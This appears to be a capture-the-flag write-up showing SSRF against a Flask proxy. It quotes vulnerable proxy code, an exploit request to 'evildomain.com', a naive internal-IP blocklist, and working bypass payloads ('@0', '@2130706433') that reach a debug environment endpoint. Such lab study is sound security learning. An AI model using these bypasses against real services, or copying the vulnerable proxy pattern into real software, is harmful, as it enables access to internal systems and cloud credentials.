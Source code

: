 ```yaml
---
title: "Season Summary"
date: 2024-08-21
---
```



Resources 
- https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies
- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass
# Flask Proxy

A snippet taken straight from the article shows us this

> [!NOTE]
> *My first thought was: "What if the developer forgets to add the last slash in the `SITE_NAME` variable?". And yes, it can lead to an SSRF.*
> 
> *Since Flask also allows any ASCII character after the `@`, it's possible to fetch an arbitrary domain after concatenating the malicious pathname and the destination server.*
> 
> *Please consider the following source code as a reference for the exploitation scenario:*
> 
> ```
> from flask import Flask
> from requests import get
> 
> app = Flask('__main__')
> SITE_NAME = 'https://google.com'
> 
> @app.route('/', defaults={'path': ''})
> @app.route('/<path:path>')
> 
> def proxy(path):
>   return get(f'{SITE_NAME}{path}').content
> 
> if __name__ == "__main__":
>     app.run(threaded=False)
> ```
> 
> *Presented below is an example of an exploitation request:*
> 
> 
> ```
> GET @evildomain.com/ HTTP/1.1
> Host: target.com
> Connection: close
> ```
> 
> *In the following example, I was able to fetch my EC2 metadata:*
> 

# Let's give it a whirl shall we?

Looking at the code we clearly need to reach the `/enviroment` endpoint and it looks to be at the `/debug` route. 

```
GET /?url=@127.0.0.1:1337/debug/environment
```

result

```
HTTP/1.1 403 FORBIDDEN
Server: Werkzeug/3.0.0 Python/3.12.0
Date: Wed, 22 May 2024 04:17:03 GMT
Content-Type: application/json
Content-Length: 24
Connection: close

{"error":"Not Allowed"}
```

As we can see this did not work so searching through the provided files we can see this.

```python
RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']

def is_safe_url(url):
    for restricted_url in RESTRICTED_URLS:
        if restricted_url in url:
            return False
    return True

def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return abort(403)
        return func(*args, **kwargs)
    return check_ip

```

## SSRF URL ByPass

https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass

From this we can try replacing `127.0.0.1` with any of the payloads. Let's try `@0`

```
GET /?url=@0:1337/debug/environment 
```


![[Assets/Pasted image 20240521230536.png]]

## PS
Another cool one that worked was 
```
GET /?url=@2130706433:1337/debug/environment
```

